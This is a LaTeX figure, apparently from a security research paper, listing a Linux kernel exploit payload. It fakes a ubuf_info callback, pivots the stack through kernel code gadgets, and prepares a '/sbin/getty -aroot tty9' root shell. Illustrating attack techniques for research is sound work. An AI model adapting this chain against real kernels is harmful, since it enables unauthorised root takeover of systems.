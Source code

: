 \begin{figure}[b]
\begin{adjustbox}{width=\linewidth}
        \begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
KERNEL_BASE := 0xffffffff81000000; // patch using leaked pointers
ATTACK_PAGE := 0xffff880043430000; // arbitrary selected address

// Fake ubuf_info structure, starting with the callback pointer.
// This is the entry point of the attack.
page[0x000] = KERNEL_BASE + 0x6b511d; // call qword ptr[rdi + 0x3b0]

// pivoting code
page[0x3B0] = KERNEL_BASE + 0x1091fd; // mov rax, qword ptr [rdi + 0x68] ;
                                            // mov rbp, rsp ; call qword ptr [rax]
page[0x068] = &ATTACK_PAGE[0x100];
page[0x100] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x138] = &ATTACK_PAGE[0x200];
page[0x228] = KERNEL_BASE + 0x16fab6;   // mov rbx, qword ptr [rax + 8] ;
                                            // mov rdi, rax ; call qword ptr [rax]
page[0x208] = &ATTACK_PAGE[0x210];
page[0x210] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0x200] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x238] = &ATTACK_PAGE[0x300];
page[0x328] = KERNEL_BASE + 0x2ccb61; // mov rcx, qword ptr[rax + 8] ;
                                            // mov rdi, rax; call qword ptr[rax]
page[0x308] = &ATTACK_PAGE[0x310];
page[0x310] = KERNEL_BASE + 0x159c86; // pop rsp ; ret
page[0x300] = KERNEL_BASE + 0x20fb7b; // mov rax, qword ptr[rax + 0x30] ;
                                            // mov r8, qword ptr[rax + 0x40] ;
                                            // call qword ptr[rbx]

page[0x330] = &ATTACK_PAGE[0xF68]; // our new stack :)

// ``/sbin/getty -aroot tty9''
page[0x400] = 0x65672f6e6962732f;
page[0x408] = 0x6f72612d20797474;
page[0x410] = 0x003979747420746f;

// helping pointers
page[0x500] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0x508] = KERNEL_BASE + 0x12dacd; // pop rdi; ret


\end{lstlisting}
\end{adjustbox}
\end{figure}
